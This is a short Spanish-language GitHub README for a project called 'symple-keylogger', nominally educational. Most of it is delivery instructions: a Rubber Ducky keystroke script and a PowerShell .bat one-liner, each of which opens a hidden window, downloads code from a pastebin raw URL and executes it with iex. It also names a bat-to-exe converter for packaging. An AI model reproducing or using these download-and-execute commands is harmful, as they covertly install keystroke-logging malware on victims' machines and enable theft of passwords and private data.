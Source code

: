 # symple-keylogger
Este es un simple keylogger con propositos educativo este proyecto se realizo con ayuda de 3xploit
<p align="center">
  <img src="https://github.com/error404-notfound/symple-keylogger/blob/master/9525007.jpg">  
</p>

<h1 align="center">Simple Keylogger </h1>
<p align="center">
  Esta herramineta esta realizada con propositos educativos .
</p>

### TESTEADO
* **Windows**


### DATOS DEL RUBBER DUCKY

* **DELAY 1000**
* **GUI r**
* **DELAY 100**
* **STRING powershell -WindowStyle hidden**
* **ENTER**
* **DELAY 1000**
* **STRING IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/')**
* **ENTER**


---------------------------------------------------------------------------------------------
********************************************************************************************
---------------------------------------------------------------------------------------------


### PAGINA EN DONDE SE CARGA EL CODIGO

https://pastebin.com

### PAGINA DESCARGA BAT TO EXE 
http://www.battoexeconverter.com/


---------------------------------------------------------------------------------------------
*******************************************************************************************
--------------------------------------------------------------------------------------------


### DATOS PARA HACER UN EJECUTABLE .BAT

* **powershell -w h -c $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','https://pastebin.com/raw/',$false);$h.send();iex $h.responseText**


----------------------------------------------------------------------------------------------
**********************************************************************************************
----------------------------------------------------------------------------------------------
